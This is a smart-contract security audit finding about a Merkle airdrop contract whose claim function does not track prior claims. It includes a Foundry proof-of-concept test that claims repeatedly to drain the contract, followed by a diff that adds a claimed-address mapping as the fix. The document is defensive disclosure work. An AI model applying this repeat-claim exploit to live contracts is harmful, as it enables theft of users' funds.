**Severity: High**<br/>**Likelihood: High**

A malicious user can call the `MerkleAirdrop::claim()` function over and over again until the contract is drained of all its funds. This also means that other users won't be able to claim their airdrop amounts.

## Proof of Code

Add the following test to `./test/MerkleAirdrop.t.sol`,

```javascript
    function testClaimAirdropOverAndOverAgain() public {
        vm.deal(collectorOne, airdrop.getFee() * 4);

        for (uint8 i = 0; i < 4; i++) {
            vm.prank(collectorOne);
            airdrop.claim{ value: airdrop.getFee() }(collectorOne, amountToCollect, proof);
        }

        assertEq(token.balanceOf(collectorOne), 100e6);
    }
```

The test passes, and the malicious user has drained the contract of all its funds.

## Tools Used

Manual review and Foundry.

## Recommended Mitigation

Use a mapping to store the addresses that have claimed their airdrop amounts. Check and update this mapping each time a user tries to claim their airdrop amount.

```diff
contract MerkleAirdrop is Ownable {
    using SafeERC20 for IERC20;

    error MerkleAirdrop__InvalidFeeAmount();
    error MerkleAirdrop__InvalidProof();
    error MerkleAirdrop__TransferFailed();
+   error MerkleAirdrop__AlreadyClaimed();

    uint256 private constant FEE = 1e9;
    IERC20 private immutable i_airdropToken;
    bytes32 private immutable i_merkleRoot;
+   mapping(address user => bool claimed) private s_hasClaimed;

    ...

    function claim(address account, uint256 amount, bytes32[] calldata merkleProof) external payable {
+       if (s_hasClaimed[account]) revert MerkleAirdrop__AlreadyClaimed();
        if (msg.value != FEE) {
            revert MerkleAirdrop__InvalidFeeAmount();
        }
        bytes32 leaf = keccak256(bytes.concat(keccak256(abi.encode(account, amount))));
        if (!MerkleProof.verify(merkleProof, i_merkleRoot, leaf)) {
            revert MerkleAirdrop__InvalidProof();
        }
+       s_hasClaimed[account] = true;
        emit Claimed(account, amount);
        i_airdropToken.safeTransfer(account, amount);
    }
```
